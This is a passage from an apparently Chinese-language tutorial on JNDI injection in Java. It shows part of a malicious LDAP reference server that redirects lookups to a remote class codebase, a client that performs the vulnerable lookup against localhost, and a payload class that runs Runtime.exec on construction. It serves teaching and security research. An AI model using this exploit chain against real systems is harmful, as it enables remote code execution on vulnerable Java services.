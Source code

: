 ```
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

接下来再用客户端使用LDAP进行通信

```
package JNDI.ldap;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```
